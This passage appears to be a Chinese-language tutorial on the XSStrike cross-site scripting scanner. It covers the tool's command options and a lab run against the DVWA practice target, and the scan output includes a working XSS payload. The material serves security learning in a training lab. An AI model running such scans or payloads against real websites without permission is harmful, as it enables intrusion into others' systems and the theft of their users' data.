 ```shell
                        load payloads from a file
  -l LEVEL, --level LEVEL
                        level of crawling
  --headers [ADD_HEADERS]
                        add headers
  -t THREADCOUNT, --threads THREADCOUNT
                        number of threads
  -d DELAY, --delay DELAY
                        delay between requests
  --skip                do not ask to continue
  --skip-dom            skip dom checking
  --blind               inject blind XSS payload while crawling
  --console-log-level {DEBUG,INFO,RUN,GOOD,WARNING,ERROR,CRITICAL,VULN}
                        Console logging level
  --file-log-level {DEBUG,INFO,RUN,GOOD,WARNING,ERROR,CRITICAL,VULN}
                        File logging level
  --log-file LOG_FILE   Name of the file to log
```

介绍一些常用的命令：

* -u   指定 url
* --skip-dom    跳过 DOM 型XSS 检测
* --data    添加 Post 方法参数
* --headers    添加请求头，key 和 value 之间要加空格 比如：`--headers "Cookie: 123"`
* --crawl    爬取指定网页并进行 XSS 检测
* -l    爬取深度，默认2层，配合 --crawl 使用
* --fuzzer    测试指定网页的过滤器和 WAF
* -d    设置请求之间的延迟
* --update    更新 strike，如果有新版本可用，strkie将下载最新版并合并到当前目录


### 靶场试验

以 DVWA 和 pikachu 为测试靶场，以各种常见的攻击方式为样本，学习使用这个工具。

#### 反射型 Get 方法

从难度为 low 的 DVWA 反射型 XSS 攻击模块开始。

先随便输入点东西，点击 Submit，获取注入点的 url，接着使用 XSStrike（后面简称 strike）扫描这个 url，已知这个注入点是反射型 XSS，所以我们直接加上 `--skip-dom` 跳过 DOM型 XSS 的扫描。

```shell
┌──(kali㉿kali)-[~/XSStrike]
└─$ python3 xsstrike.py -u "http://192.168.127.200/DVWA/vulnerabilities/xss_r/?name=DonkeyQian#" --skip-dom

XSStrike v3.1.5
# 没有检测到在线的 WAF（正确）
[+] WAF Status: Offline
# 检测到注入点的参数为 name（正确）
[!] Testing parameter: name
# 检测出了一个反射型注入点（正确）
[!] Reflections found: 1
[~] Analysing reflections
[~] Generating payloads
# 生成了 1536 个 payload，是不是有点太多了
[!] Payloads generated: 1536
------------------------------------------------------------
[+] Payload: <HTmL%0aONPoINtEReNTER+=+(prompt)``%0dx//
# 这个应该是效率评分
[!] Efficiency: 92
# 这个应该是有效性评分
[!] Confidence: 10
------------------------------------------------------------
```